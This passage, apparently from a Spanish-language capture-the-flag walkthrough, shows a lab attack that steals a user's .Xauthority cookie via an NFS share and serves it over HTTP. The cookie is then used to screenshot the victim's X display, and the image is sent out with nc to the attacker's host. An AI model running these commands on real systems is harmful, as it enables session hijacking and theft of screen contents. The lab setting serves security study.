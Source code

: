 ```bash wrap=false intitle="Servimos el archivo"
drwx------  3 dummy2 dummy2 4096 oct 21  2022 .gnupg
drwx------  3 dummy2 dummy2 4096 oct 21  2022 .local
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Music
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Pictures
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Public
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Templates
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Videos
lrwxrwxrwx  1 root   root      9 oct 21  2022 .viminfo -> /dev/null
-rw-------  1 dummy2 dummy2   57 oct  6 23:01 .Xauthority
-rw-------  1 dummy2 dummy2 2475 oct  6 23:01 .xsession-errors
-rw-------  1 dummy2 dummy2 2475 dic 27  2022 .xsession-errors.old
dummy2@kali:/mnt/nfs/ross_home$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.11.191 - - [08/Oct/2025 15:21:37] "GET /.Xauthority HTTP/1.1" 200 -
```

```bash wrap=false intitle='Nos descargamos el archivo'
alex@squashed:/home/alex$ wget http://10.10.14.15:1234/.Xauthority
--2025-10-08 13:21:40--  http://10.10.14.15:1234/.Xauthority
Connecting to 10.10.14.15:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: ‘.Xauthority’

.Xauthority                                   100%[=================================================================================================>]      57  --.-KB/s    in 0.1s    

2025-10-08 13:21:40 (553 B/s) - ‘.Xauthority’ saved [57/57]
```

Vamos a volver a intentarlo ahora:

```bash wrap=false
alex@squashed:/home/alex$ xdpyinfo -display :0
name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
number of supported pixmap formats:    7
...
```

### Taking a screenshot

Vemos que ahora si que podemos. Vamos a intentar hacer una captura de pantalla:

```bash wrap=false intitle='Hacemos la captura y nos la enviamos'
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls
screenshot.xwd
alex@squashed:/tmp$ nc 10.10.14.15 4444 < screenshot.xwd 
```
